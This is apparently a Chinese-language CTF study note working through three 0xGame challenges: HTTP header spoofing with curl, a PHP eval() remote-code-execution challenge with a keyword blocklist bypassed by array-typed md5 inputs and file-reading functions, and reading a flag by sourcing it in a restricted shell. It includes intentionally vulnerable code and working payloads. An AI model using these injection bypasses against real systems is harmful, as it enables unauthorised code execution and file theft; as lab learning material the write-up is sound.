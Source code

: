 ```yaml
---
title: day4
categories:
  - ctf
  - note
---
```


一些题目 + curl 指令的用法

<!--more-->

## CTF+ 题目 [Http的真理，我已解明](https://www.ctfplus.cn/problem-detail/1975492176561311744/description)
### 标签: 0xGame Web

题目要求我们用指定的GET POST COOKIE 传入特定的参数 使用特定的浏览器 使用 表示经过代理或者网关, 以及从指定的网站跳转过来
所以得出curl指令
```bash
curl -A "Safari" -H "Referer: www.mihoyo.com" -H "Via: clash" -d "http=good" -b "Sean=god" http://80-95a23249-8263-444a-93e7-a0d59b688e83.challenge.ctfplus.cn/?hello=web
```
得到flag
0XGame{Congratuation_You_Are_Http_God!!!}


所使用的 curl 参数
```TEXT
-H "Vai: XXX" 指定代理
-H "Referer: XXX" 请求由什么网站跳转到这里

-A            指定访问浏览器
-d            POST 传输
-b            COOKIE 传输
...

```


## CTF+ 题目 [RCE1](https://www.ctfplus.cn/problem-detail/1975492181816774656/description)
### 标签: 0xGame Web
进入靶机发现如下php代码
```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$rce1 = $_GET['rce1'];
$rce2 = $_POST['rce2'];
$real_code = $_POST['rce3'];

$pattern = '/(?:\d|[\$%&#@*]|system|cat|flag|ls|echo|nl|rev|more|grep|cd|cp|vi|passthru|shell|vim|sort|strings)/i';

function check(string $text): bool {
    global $pattern;
    return (bool) preg_match($pattern, $text);
}


if (isset($rce1) && isset($rce2)){
    if(md5($rce1) === md5($rce2) && $rce1 !== $rce2){
        if(!check($real_code)){
            eval($real_code);
        } else {
            echo "Don't hack me ~";
        }
    } else {
        echo "md5 do not match correctly";
    }
}
else{
    echo "Please provide both rce1 and rce2";
}
?>

```

发现需要使用GET 传入参数rce1, 使用POST 传入参数 rce2, rce3(real_code)
第一层if语句可以看出 本题目要求 **rce1**, **rce2** 的MD5哈希值相同但是字符串不同,而第二层if则要求
输入的**rce3** 中的命令必须不在正则表达式
<br>
 **/(?:\d|[\$%&#@*]|system|cat|flag|ls|echo|nl|rev|more|grep|cd|cp|vi|passthru|shell|vim|sort|strings)/i** 
<br>
 的筛选范围内

故可以 将**rce2** **rce1** 设定为 列表因为 php中的md5 不能处理列表 都会返回null,或者将其设定为 经过md5 转化后为0e开头的字符串，因为php会将这种数据视为科学计数法而绕过

所以我们可以构建出curl命令为:
```bash
curl -d "rce2[]=12123&rce3=print_r(scandir('/'));" http://80-a997745a-c1b5-4f34-aa06-65d2d675f958.challenge.ctfplus.cn/?rce1[]=123
```
发现 flag文件
故接下来的问题是怎么 在正则表达式的限制下 读取到文件

所以构件出如下命令:
```bash
curl -d "rce2[]=1&rce3=show_source('/fl'.'ag');" "http://80-a997745a-c1b5-4f34-aa06-65d2d675f958.challenge.ctfplus.cn/?rce1[]=2"
```
成功得到flag: 0xGame{This_is_Your_First_Stop_to_RCE!!!}


#### 笔记
php 常用的函数
1. file_get_contents()
一次性读取整个文件内容到字符串中。
2. file()
将整个文件读取到数组中，每行作为数组的一个元素。
3. readfile()
直接读取文件并输出到浏览器，适合文件下载。
4. show_source();
5. include

6. scandir() 获取目录
7. print_r() 打印


## CTF+ 题目 [命令执行🤔](https://www.ctfplus.cn/problem-detail/1975492230630084608/description)
### 标签:0xGame PWN
进入题目提供的nc地址时 发现除了echo, ls命令其他所有命令都不能使用
使用ls 发现文件目录中存在flag 文件
继续ls -l 该文件发现该文件是一个可读文件所以输入
```bash
. ./flag
```
执行文件得到flag：0xGame{y0u_c4n_4ls0_3x3cu73_c0mm4nd_w17h0u7_5h_4nd_c47}
